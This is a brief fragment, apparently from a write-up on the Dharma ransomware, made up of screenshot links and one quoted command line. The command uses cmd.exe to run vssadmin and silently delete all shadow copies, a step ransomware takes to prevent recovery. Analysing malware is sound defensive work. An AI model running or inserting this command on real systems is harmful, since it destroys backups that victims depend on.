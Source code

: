 ![image](/images/dharma/dharma-08.png)

C:\\Windows\\system32\\cmd.exe" "mode con cp select=1251\nvssadmin delete shadows /all /quiet\nExit\n"

![image](/images/dharma/dharma-09.png)
